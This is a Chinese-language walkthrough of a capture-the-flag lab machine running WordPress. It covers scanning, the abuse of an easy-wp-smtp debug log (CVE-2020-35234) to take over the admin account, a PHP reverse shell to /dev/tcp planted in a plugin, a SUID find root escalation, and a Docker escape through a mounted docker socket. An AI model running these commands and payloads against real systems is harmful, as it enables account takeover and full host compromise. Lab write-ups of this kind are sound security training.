# realsaga
nmap扫描
访问80端口

修改host文件指向192.168.56.109

发现是一个wordpress的站点

dirsearch扫描出备份文件


wget下载后打开什么也没有
这里的靶场是设置了域名的,跑一下域名

(都加进host文件)
访问后都同样是一个页面
尝试使用wpscan扫一下这个站点,wordpress版本较新,尽可能关注插件的漏洞
扫描出一些插件并报警告

使用nuclei扫描一下
```
nuclei.exe -u http://saga.local -tags wordpress
```

注意到几个cve编号,查一下
CVE-2023-5561是一个暴露站点用户的漏洞得到账户wpadmin
CVE-2020-35234
```
WordPress 版本 1.4.4 之前的 easy-wp-smtp 插件允许管理员账户接管，这一点在 2020 年 12 月被利用。如果攻击者能列出 wp-content/plugins/easy-wp-smtp/ 目录，那么他们就能发现包含所有密码重置链接的日志文件（如 #############_debug_log.txt）。攻击者可以请求重置管理员密码，然后使用该链接。
```
这是一个smtp的debug日志文件,细记录了WordPress网站通过SMTP服务器发送邮件的全过程,在我们得知用户名的情况下,发起重置密码的请求

我们在http://saga.local/wp-login.php?action=lostpassword接口重置密码请求后产看debug文件即可获取重置密码的链接


即可重置密码
接下来就是对其getshell了,wordpress站点正常getshell通常采取写恶意插件和模板的方式(网上也有)
这里选择更改404.php
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.108/4444 0>&1'");
?>
```

提示错误,无法更改
选择修改插件

随后启用插件

翻找目录成功找到user的flag


接下来尝试提权
```
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null
```

可以使用find来提权
```
find . -exec /bin/bash -p \; -quit
```

但是发现不对,推测可能正处于容器中

确实处于docker容器中
新建root的shell,上传容器逃逸的检测脚本
先升级一下shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
reset
export TERM=xterm-256color
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
alias ll='ls -lsaht --color=auto'
alias ls='ls -lah --color=auto'
stty rows 59 columns 236
source /etc/skel/.bashrc
```
上传cdk检测脚本
由于这里处于容器中,可能无法监听接收文件,那就主动去下载
在kali上启动python的web服务,在shell中wget下载

```
./cdk_linux_amd64 evaluate --full
```
结果发现存在docker.sock文件
Docker Socket（也称为Docker API Socket）是Docker引擎的UNIX套接字文件，用于与Docker守护进程（Docker daemon）进行通信，实现执行各种操作，例如创建、运行和停止容器，构建和推送镜像，查看和管理容器的日志等。
 
也就是说如果这个文件被挂载了之后，就可以直接操作宿主机的docker服务，进行创建、修改、删除镜像，从而实现逃逸
参考文章:https://xz.aliyun.com/news/17111


这里可能被更改,真正的有效文件是docker.saga
准备逃逸  
1.挂载socket文件
```
docker -H unix:///run/docker.saga images
```
```
bash-4.4# docker -H unix:///run/docker.saga images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
saga         latest    4bd60acdea69   14 months ago   1.7GB
ubuntu       18.04     f9a80a55f492   2 years ago     63.2MB
```
2.挂载主机文件并进入新的容器
```
docker -H unix:///var/run/docker.saga run -it -v /:/tmp ubuntu:18.04 /bin/bash
```
翻看/tmp目录,发现成功挂载主机文件



